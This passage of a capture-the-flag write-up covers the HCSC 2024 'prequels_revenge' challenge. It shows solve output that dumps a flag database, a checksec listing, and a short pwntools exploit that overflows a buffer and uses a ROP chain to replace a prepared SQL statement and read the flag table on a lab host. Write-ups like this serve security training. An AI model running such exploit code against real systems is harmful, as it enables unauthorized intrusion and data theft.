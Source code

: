 We can basically save the whole database and read the flag from it ([`messages.db`](files/messages.db)).

```
$ python solve.py 
[+] Opening connection to 10.10.6.12 on port 10990: Done
HCSC24{h0pe_y0u_u53d_the_str1nG_1n_pR3qu3l_4nd_n0t_b0ring_r34d}
[*] Closed connection to 10.10.6.12 port 10990

$ file messages.db 
messages.db: SQLite 3.x database, last written using SQLite version 3045002, file counter 6, database pages 3, cookie 0x2, schema 4, UTF-8, version-valid-for 6

$ sqlite3 messages.db 
SQLite version 3.45.1 2024-01-30 16:01:20
Enter ".help" for usage hints.
sqlite> .tables
flag      messages
sqlite> select * from flag;
HCSC24{h0pe_y0u_u53d_the_str1nG_1n_pR3qu3l_4nd_n0t_b0ring_r34d}
```

> Fun fact: The binary was manually modified, so that `checksec` would print that there is a stack canary. However, there is not.

```
$ checksec --file prequels_revenge 
[*] '/data/prequels_revenge'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

`12boti` (who achieved overall 6th place and junior 2nd place, gg!) solved the challenge with this amazingly short script. He basically creates a ROP chain to execute `SELECT * FROM flag WHERE 1!=?;` instead of `SELECT message FROM messages WHERE name=?;` on the database (and handles the prepared statement parameter correctly).

```python
import pwn
exe = pwn.ELF("./prequels_revenge")
pwn.context.binary = exe

stmt = "SELECT * FROM flag WHERE 1!=?;"
target = exe.bss(0x100)

rop = pwn.ROP(exe)
rop.gets(target)
rop.get_message(target, target)

r = pwn.remote("10.10.7.12", 10990)
r.sendline(b"Alice".ljust(72, b"\00") + rop.chain())
r.sendline(stmt)
r.interactive()
```

The official write-up by `MJ` is available at: <https://github.com/NIK-SOC/hcsc_2024_mj/tree/main/ctf-prequels_revenge>

Flag: `HCSC24{h0pe_y0u_u53d_the_str1nG_1n_pR3qu3l_4nd_n0t_b0ring_r34d}`